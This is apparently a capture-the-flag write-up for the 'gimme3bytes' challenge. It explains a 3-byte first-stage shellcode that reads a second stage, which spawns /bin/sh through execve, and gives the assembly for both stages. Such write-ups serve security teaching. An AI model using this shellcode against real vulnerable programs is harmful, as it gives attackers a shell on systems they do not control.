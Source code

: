 # gimme3bytes

It reads 3 bytes from stdin and executes them as shellcode.

The idea is to run a multi-stage shellcode, where the first stage is a small shellcode that call the syscall `read` to read the second stage from stdin. The second stage is the actual shellcode that will be executed.

## First Stage (3 bytes)

```c
pop rdx
syscall
```

- RAX: already set to 0x0 (syscall number for `read`)
- RDI: already set to 0x0 (stdin)
- RSI: already set to the buffer address
- RDX: set using `pop rdx`. Why so? Because at that point the stack contains a large number that can be used as a buffer size. But not so large that the read will not execute correctly (see man page for `read`, in particular the NOTES section).

## Second Stage (25 bytes)

Main idea: `execve(RDI -> "/bin/sh", RSI = argv -> NULL, RDX = envp -> NULL)`

```c
nop
nop
nop
mov rdi, rsi
add rdi, 0x19
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

Note: The first three `nop`s are there since the RIP after the first stage is set at the end of the buffer and cannot be changed. With the three `nop`s we push the second stage three bytes forward right where the RIP will be set and then `mov rdi, rsi` will be the first instruction executed.

- RDI: set to the buffer address + 25, to point to the string "/bin/sh"
- RAX: set to 0x3b (syscall number for `execve`)
- RSI: set to 0x0 (NULL)
- RDX: set to 0x0 (NULL)

The complete exploit is in [script.py](script.py).
